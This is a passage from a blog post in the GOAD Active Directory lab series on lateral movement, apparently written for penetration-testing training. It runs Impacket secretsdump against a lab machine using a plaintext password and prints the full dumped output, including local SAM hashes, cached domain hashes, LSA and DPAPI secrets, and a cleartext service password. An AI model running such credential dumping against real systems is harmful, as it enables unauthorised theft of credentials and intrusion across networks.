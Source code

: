 ```yaml
---
layout: post
title:  "GOAD - part 9 - Lateral move"
category : AD
tags :  AD, Lab, Impacket, Lateral move
---
```


In the previous post ([Goad pwning part8]({% link _posts/2022-09-25-GOADv2-pwning-part8.md %})) we tried some privilege escalation techniques. Today we will talk about lateral move.
Lateral move append when you already pwned a computer and you move from this computer to another.

## Give me your secrets

- Before jumping from computer to computer we must get the secrets of the owned machine.
- Windows got a lot of different secrets stored in different place.

- Let's launch impacket secretsdump.py and see what we got :

```bash
❯ python3 secretsdump.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 
Impacket v0.10.1.dev1+20220912.232454.86a5cbf8 - Copyright 2022 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x9753797dfb54be86486d950690bac8ba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:0e181c6215bdbfd5b93917da349fc7cd:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Dumping cached domain logon information (domain/username:hash)
NORTH.SEVENKINGDOMS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a
NORTH.SEVENKINGDOMS.LOCAL/robb.stark:$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405
NORTH.SEVENKINGDOMS.LOCAL/Administrator:$DCC2$10240#Administrator#afb576755bfd2762f808e2e91eb83eb3
NORTH.SEVENKINGDOMS.LOCAL/jon.snow:$DCC2$10240#jon.snow#82fdcc982f02b389a002732efaca9dc5
NORTH.SEVENKINGDOMS.LOCAL/jeor.mormont:$DCC2$10240#jeor.mormont#36d673a934e86d04ece208fc2ba1d402
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
NORTH\CASTELBLACK$:aes256-cts-hmac-sha1-96:69c32491ad552dc341b9f989daeb91243031a3267708f424461f5134fd6275f5
NORTH\CASTELBLACK$:aes128-cts-hmac-sha1-96:0cc49644dd699c02fb34b6ff81a86f8a
NORTH\CASTELBLACK$:des-cbc-md5:3b4fa8679e7f738a
NORTH\CASTELBLACK$:plain_password_hex:9257eeecf6e89023aefa9cc72aab5e0840541b0a494fb5dd90da4244525d3ff3dd237022108f1d811eaf1588cb96a26b9f9ff01326a300893436819216565d07d9ab02a5feb2223d80db9881e4cafdcc939bcbd8b404cfd8ef4f199c233e6adc22963de84bfb172b4ed8afd798c0589ae5c0e304965784e5785cd1fcbccfe30c9b01828d2f10e6fc758eba3be36ec9f5f84bf4e8606bfedbfcfd4700142884277862817141ba9b41d5e9cb4aad33f1153e9e6d166af5077d0ceec54e97614e48b09575732db2053b5da17844015aac0a83d4f3e82d33f0f626f41634e0d445bb80396edf4398b07a1e1644b301665c5f
NORTH\CASTELBLACK$:aad3b435b51404eeaad3b435b51404ee:22d57aa0196b9e885130414dc88d1a95:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x8ee2a1f0f4c1689343c9d954b1422661262a52a3
dpapi_userkey:0xad6d3e6789682c3429236b14411f92f406792486
[*] NL$KM 
 0000   39 FB 46 D8 43 B6 EC E6  DE D7 CE 1C 50 2D AE B4   9.F.C.......P-..
 0010   4F 71 E1 25 BF 5E FB 14  86 14 D6 A3 0F 93 DE 42   Oq.%.^.........B
 0020   06 48 F4 35 B1 45 83 7E  1A 98 29 D6 45 19 14 D2   .H.5.E.~..).E...
 0030   C4 66 57 03 2B C5 04 01  AE 33 49 CD D2 E0 92 CE   .fW.+....3I.....
NL$KM:39fb46d843b6ece6ded7ce1c502daeb44f71e125bf5efb148614d6a30f93de420648f435b145837e1a9829d6451914d2c46657032bc50401ae3349cdd2e092ce
[*] _SC_MSSQL$SQLEXPRESS 
north.sevenkingdoms.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
[*] Cleaning up... 
```